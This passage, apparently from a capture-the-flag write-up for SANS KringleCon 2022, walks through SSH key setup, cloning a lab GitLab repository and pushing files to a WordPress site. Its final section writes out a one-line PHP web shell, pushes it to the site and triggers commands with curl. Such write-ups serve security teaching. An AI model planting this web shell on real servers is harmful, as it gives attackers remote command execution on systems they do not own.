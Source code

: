 After much googling, I realised mistake was that (1) I did not check if my keys were correct - they might be wrongly formatted (2) Syntax used to clone the git was not 
using the SSH protocol! 

### Testing SSH keys

The following was used to check SSH keys if it can connect to the git repo. And `ssh-add` could be used to 'register' our private key to be used.

https://docs.gitlab.com/ee/user/ssh.html

![]({{ site.url }}{{ site.baseurl }}/assets/images/sans-kringlecon-2022/7_challenge_17.png)

```bash
# start ssh-agent
eval "$(ssh-agent -s)"

# add private key
ssh-add ~/.ssh/id_rsa

# Test SSH connection
ssh -T git@gitlab.flag.net.internal
# Welcome to GitLab, @knee-oh!
```

### git clone with SSH
Now, we can clone
The correct way to clone git with SSH key is to use the syntax `git clone ssh://git@server_name_here/repo.git` **NOT** `http://....`

```bash
# remove the previous clone
cd ~
rm -rf wordpress.flag.net.internal

GIT_SSH_COMMAND="ssh -i ~/.ssh/id_rsa" git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```

At this point I can add/commit/push the changes to the repo. To be sure, we tested if the file could be found by using a `curl` to see it

```bash
curl http://wordpress.flag.net.internal/test.txt
```

![]({{ site.url }}{{ site.baseurl }}/assets/images/sans-kringlecon-2022/7_challenge_19.png)

# RCE

I am pretty sure at this point we can do a reverse shell and the easiest RCE to do so at this point would be the nifty PHP rce script which we can use very well with `curl`

We can add this file and push it to the repo
```bash
echo '<?php echo shell_exec($_GET["cmd"]);?>' > rce.php

# add/commit/push here

# supply command to our RCE php script
curl http://wordpress.flag.net.internal/rce.php?cmd=whoami
```
